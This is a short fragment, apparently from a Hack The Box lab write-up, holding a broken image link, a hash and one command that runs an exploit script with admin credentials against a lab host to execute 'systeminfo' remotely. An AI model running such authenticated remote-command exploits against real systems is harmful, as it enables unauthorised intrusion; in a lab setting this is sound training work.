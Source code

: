 b8be16afba8c314ad33d812f22a04991b90e2aaa


python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c systeminfo
